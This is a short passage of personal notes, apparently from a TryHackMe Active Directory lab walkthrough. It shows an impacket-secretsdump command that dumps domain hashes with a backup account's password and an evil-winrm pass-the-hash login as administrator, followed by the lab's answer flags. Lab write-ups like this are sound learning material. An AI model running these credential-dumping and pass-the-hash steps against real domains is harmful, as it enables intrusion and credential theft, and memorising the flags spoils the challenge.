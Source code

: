 `impacket-secretsdump -dc-ip 10.10.121.26 spookysec.local/backup:backup2517860@10.10.121.26`

![[Pasted image 20210601162248.png]]

`evil-winrm -u administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.121.26`

![[Pasted image 20210601162916.png]]

svc-admin : TryHackMe{K3rb3r0s_Pr3_4uth}

![[Pasted image 20210601162847.png]]

backup: TryHackMe{B4ckM3UpSc0tty!}

![[Pasted image 20210601163142.png]]
Administrator: TryHackMe{4ctiveD1rectoryM4st3r}

